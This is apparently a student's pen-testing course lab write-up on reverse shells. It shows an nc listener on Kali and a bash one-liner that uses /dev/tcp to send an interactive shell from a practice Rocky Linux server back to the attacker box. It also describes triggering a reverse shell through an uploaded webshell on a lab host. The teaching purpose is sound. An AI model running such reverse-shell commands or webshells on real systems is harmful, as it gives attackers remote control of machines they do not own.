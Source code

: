 # Lab 8.2 - Reverse Shells

💡A reverse shell occurs when we convince the target to connect to the attacker. This vastly simplifies command and control because firewall egress rules are nearly always more permissive than ingress rules. Even so, Windows 10 will present us with a problem.
In the spirit of living off the land, we will spend some time using target native tools (as opposed to uploading or installing nc on the target) to create a command and control channel between the target and kali. The "target" is not actually a pen testing target but just a generic Rocky 8.5 Linux server that we can practice on. Some exercises will leverage our previously exploited systems



## Bash Reverse Shell on Linux

1. Login to sec335-rocky(10.0.17.200) from kali using ssh and your cyber.local credentials.

   `ssh hasan.hashim@cyber@10.0.17.200`

   ![image-20221105233819338](./images/6.png)

   

2. Determine your DHCP address for your kali vm's eth0 (not wg0)

   `ifconfig`

   ![image-20221105234244221](./images/7.png)

3. On Kali, Create a nc listener on 4449/tcp

   `nc -nlvp 4449`

   ![image-20221105234331140](./images/8.png)

4. On Rocky Use a native bash reverse shell to connect back to your listener

   I used the following command to send back connection to our nc:

   `/bin/bash -i >& /dev/tcp/10.0.17.119/4449 0>&1`

   ![image-20221105234838146](./images/9.png)

   ![image-20221105234957003](./images/10.png)

5. Interact with sec335-rocky over your kali nc session.

![image-20221105235235616](./images/11.png)



## Deliverable 1. Run wireshark, create a capture filter on 4449/tcp and capture a command or two entered through the nc session. Provide a screenshot showing the followed tcp stream, similar to the screenshot below.

![image-20221105235741118](./images/12.png)



## Deliverable 2. Try this out on Pippen by leveraging an uploaded webshell or reverse shell on pippen to run a similar command to connect back to a listener. You may need to upload a small shell script to make this happen, particularly if you are using the simple-backdoor.php script. Provide a screenshot similar to the one below that shows you invoking the reverse shell on the target via curl or your web browser and catching the connection on your kali box.





![image-20221106002838435](./images/13.png)



![image-20221106010306299](./images/16.png)

![image-20221106010209947](./images/14.png)

![image-20221106010239928](./images/15.png)

























